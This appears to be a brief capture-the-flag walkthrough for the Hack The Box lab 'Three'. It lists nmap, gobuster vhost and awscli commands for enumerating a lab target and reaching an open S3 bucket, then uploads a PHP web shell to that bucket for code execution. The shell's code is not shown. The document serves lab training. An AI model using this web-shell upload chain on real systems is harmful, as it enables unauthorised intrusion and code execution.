




# THREE

STARTING POINT - TIER 1

## Enumeration

**Nmap scan**

```bash
nmap -sC -sV 10.129.27.230
```



## Exploitation

**Config hosts**

```bash
nano /etc/hosts
```


**Sub-domain scanning**

```bash
gobuster vhost -u http://thetoppers.htb -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```


**Add new host**



**Using `awscli` to connect to the aws server**

```bash
aws s3 ls --endpoint-url=http://s3.thetoppers.htb s3://thetoppers.htb
```



- You must be configured the awscli `aws configure`.

**Create a PHP shell**



**Add PHP shell to the aws serer**

```bash
aws s3 cp --endpoint-url=http://s3.thetoppers.htb shell.php  s3://thetoppers.htb
```


**RCE**


